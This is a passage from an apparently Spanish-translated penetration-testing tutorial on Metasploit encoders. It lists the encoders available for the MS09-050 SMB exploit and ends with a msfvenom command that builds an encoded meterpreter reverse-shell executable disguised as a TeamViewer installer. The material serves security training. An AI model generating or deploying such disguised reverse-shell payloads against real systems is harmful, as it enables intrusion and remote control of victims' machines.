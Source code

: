 En el ejemplo anterior, solo vemos algunos codificadores compatibles con sistemas x64. Al igual que las cargas útiles disponibles, estos se filtran automáticamente de acuerdo con el módulo de explotación para mostrar solo los que son compatibles.

#### Ejemplo Alternativo: MS09-050

Probemos el exploit de Microsoft SRV2.SYS SMB Negotiate ProcessID Function Table Dereference (MS09-050).

```plaintext
msf6 exploit(ms09_050_smb2_negotiate_func_index) > show encoders
```

**Codificadores Compatibles**

```bash
===================
   Nombre                    Fecha de Divulgación  Rango       Descripción
   ----                    ----------------------  ----       -----------
   generic/none                             normal     El Codificador "none"
   x86/alpha_mixed                          low        Codificador Alfanumérico Mezclado Alpha2
   x86/alpha_upper                          low        Codificador Alfanumérico en Mayúsculas Alpha2
   x86/avoid_utf8_tolower                   manual     Evitar UTF8/tolower
   x86/call4_dword_xor                      normal     Codificador XOR Dword Call+4
   x86/context_cpuid                        manual     Codificador de Carga Única Basado en CPUID
   x86/context_stat                         manual     Codificador de Carga Única Basado en stat(2)
   x86/context_time                         manual     Codificador de Carga Única Basado en time(2)
   x86/countdown                            normal     Codificador XOR de Cuenta Regresiva de Un Solo Byte
   x86/fnstenv_mov                          normal     Codificador XOR Dword Fnstenv/mov de Longitud Variable
   x86/jmp_call_additive                    normal     Codificador de Retroceso Adicional Jump/Call XOR
   x86/nonalpha                             low        Codificador No Alfabético
   x86/nonupper                             low        Codificador No en Mayúsculas
   x86/shikata_ga_nai                       excellent  Codificador Polimórfico XOR de Retroalimentación Aditiva
   x86/single_static_bit                    manual     Un Solo Bit Estático
   x86/unicode_mixed                        manual     Codificador Alfanumérico Unicode Mezclado Alpha2
   x86/unicode_upper                        manual     Codificador Alfanumérico en Mayúsculas Unicode Alpha2
```

Toma el ejemplo anterior solo como eso: un ejemplo hipotético. Si codificamos un payload ejecutable solo una vez con SGN, lo más probable es que sea detectado por la mayoría de los antivirus hoy en día. Profundicemos en esto por un momento. Tomando **msfvenom**, el subscript del Framework que se ocupa de la generación de cargas útiles y esquemas de codificación, tenemos la siguiente entrada:

#### Ejemplo de Msfvenom

```plaintext
sherlock28@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
```
